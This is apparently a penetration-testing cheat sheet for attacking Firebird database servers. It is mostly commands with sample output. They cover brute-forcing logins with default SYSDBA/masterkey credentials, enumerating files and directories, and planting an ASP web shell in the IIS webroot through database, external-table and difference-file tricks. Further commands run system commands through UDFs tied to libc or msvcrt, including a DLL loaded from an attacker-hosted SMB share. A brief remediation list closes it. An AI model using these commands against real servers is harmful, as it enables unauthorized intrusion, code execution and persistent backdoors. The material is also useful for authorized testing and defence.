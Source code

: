 ## Firebird Database Exploitation

#### Login attack on Firebird database
```
https://github.com/InfosecMatter/Scripts/blob/master/firebird-bruteforce.sh
```

#### Firebird exploits

```
searchsploit firebird
```
#### File enumeration
c:\psplog.txt exists or not: 

```
root@kali:~# isql-fb
SQL> create database '10.1.10.101/3050:C:\psplog.txt' user 'SYSDBA' password 'masterkey';

Statement failed, SQLSTATE = 08001
I/O error during "CreateFile (create)" operation for file "C:\PSPLOG.TXT"
-Error while trying to create file
-The file exists
```
```
root@kali:~# isql-fb
SQL> create database '10.1.10.101/3050:C:\psplog.txt' user 'SYSDBA' password 'masterkey';
SQL> drop database;
```
 c:\psplog.txt didn’t exist, so we created it and removed it right away.
 
#### Directory enumeration

```
root@kali:~# isql-fb
SQL> create database '10.1.10.101/3050:C:\inetpub' user 'SYSDBA' password 'masterkey';

Statement failed, SQLSTATE = 08001
I/O error during "CreateFile (create)" operation for file "C:\INETPUB"
-Error while trying to create file
-Access is denied.
```
same as file enumeration

### Arbitrary file creation 

#### Method 1: Database creation
```
root@kali:~# isql-fb
SQL> CREATE DATABASE '10.1.10.101/3050:C:\inetpub\wwwroot\mytest.asp' user 'SYSDBA' password 'masterkey';
SQL> CREATE TABLE a ( x BLOB);
SQL> INSERT INTO a VALUES ('<ASP/JSP/PHP shell>');
SQL> COMMIT;
SQL> EXIT;
```
it generate lot of garbage in the beginning of the file. 
#### Method 2: External table
##### Using BLOB data type
```
root@kali:~# isql-fb
SQL> CREATE DATABASE '10.1.10.101/3050:C:\non-existent-file' user 'SYSDBA' password 'masterkey';
SQL> CREATE TABLE a EXTERNAL 'C:\inetpub\wwwroot\mytest.asp' ( x blob);

Statement failed, SQLSTATE = HY004
unsuccessful metadata update
-CREATE TABLE A failed
-SQL error code = -607
-Invalid command
-Data type BLOB is not supported for EXTERNAL TABLES. Relation 'A', field 'X'
```
But we can’t – BLOB is not supported for external tables in our case. Let’s try workaround..
##### Using CHAR data type
```
root@kali:~# isql-fb
SQL> CREATE DATABASE '10.1.10.101/3050:C:\non-existent-file' user 'SYSDBA' password 'masterkey';
SQL> CREATE TABLE a EXTERNAL 'C:\inetpub\wwwroot\mytest.asp' ( x char(2000));
```
Seems like it is working this time, there is no error. Let’s try to sneak into it some ASP code:
```
SQL> INSERT INTO a values ('<%= date() %>');

Statement failed, SQLSTATE = 28000
Use of external file at location C:\inetpub\wwwroot\mytest.asp is not allowed by server configuration
```
Ha, seems like we can’t use external tables in our case after all. But it’s worth to try, it could potentially work.In the end, make sure to clean up:
```
root@kali:~# isql-fb
SQL> CONNECT '10.1.10.101/3050:C:\non-existent-file' user 'SYSDBA' password 'masterkey';
SQL> DROP DATABASE;
```
#### Method 3: Create difference file
```
root@kali:~# isql-fb
SQL> CREATE DATABASE '10.1.10.101/3050:C:\non-existent-file' user 'SYSDBA' password 'masterkey';
SQL> CREATE TABLE a( x blob);
SQL> ALTER DATABASE ADD DIFFERENCE FILE 'C:\inetpub\wwwroot\mytest.asp';
SQL> ALTER DATABASE BEGIN BACKUP;
SQL> INSERT INTO a VALUES ('<ASP/JSP/PHP shell>');
SQL> COMMIT;
SQL> EXIT;
```
```
Access web shell : http://10.10.10.10/mytest.asp?cmd=ls
```
To clean up the webshell from the remote system afterward, execute:

```
root@kali:~# isql-fb
SQL> CONNECT '10.1.10.101/3050:C:\non-existent-file' user 'SYSDBA' password 'masterkey';
SQL> ALTER DATABASE END BACKUP;
SQL> ALTER DATABASE DROP DIFFERENCE FILE;
SQL> DROP DATABASE;
```
This will delete both C:\non-existent-file and C:\inetpub\wwwroot\mytest.asp files from the remote system.

### Remote code execution using UDF

By using the /lib/libc.so library and its system() function, it was possible to execute arbitrary code like this:
```
SQL> DECLARE EXTERNAL FUNCTION exec cstring(4096) RETURNS cstring(4096) ENTRY_POINT 'system' MODULE_NAME '/lib/libc.so';

SQL> SELECT FIRST 1 exec('<COMMAND>') FROM any_table LIMIT 1;
```

```
SQL> DECLARE EXTERNAL FUNCTION exec cstring(4096) RETURNS integer BY VALUE ENTRY_POINT 'system' MODULE_NAME 'fbudf';

SQL> SELECT FIRST 1 exec('<COMMAND>') FROM any_table LIMIT 1;
```
### Use different libraries

```
SQL> DECLARE EXTERNAL FUNCTION EXEC cstring(4096), integer RETURNS integer BY VALUE ENTRY_POINT 'System' MODULE_NAME 'c:\windows\system32\msvcrt.dll';

SQL> SELECT FIRST 1 EXEC('<COMMAND>') FROM any_table LIMIT 1;
```

### Load the library remotely
We can also try hosting the library on our Kali box using the SMB/CIFS network share. Note that there should not be any authentication required – it should be a plain no auth / guest access. We can easily use Impacket for that like this:
```
/opt/impacket/examples/smbserver.py public /tmp/files
```
Now copy the kernel32.dll file into the /tmp/files directory and then declare the EXEC function using UNC path like this:
```
SQL> DECLARE EXTERNAL FUNCTION EXEC cstring(4096), integer RETURNS integer BY VALUE ENTRY_POINT 'WinExec' MODULE_NAME '\10.19.1.205\public\kernel32.dll';

SQL> SELECT FIRST 1 EXEC('<COMMAND>', 1) FROM any_table LIMIT 1;
```
### Remediation strategy

```
    Change the credentials for the SYSDBA account as soon as possible.
    Do not expose the Firebird database on the network interface. Run it on the localhost interface, if possible.
    Make sure that the Firebird database does not run with nt authority\system privileges (in case of Windows) or root privileges (in case of *nix). Use only a limited user account with limited privileges.
```






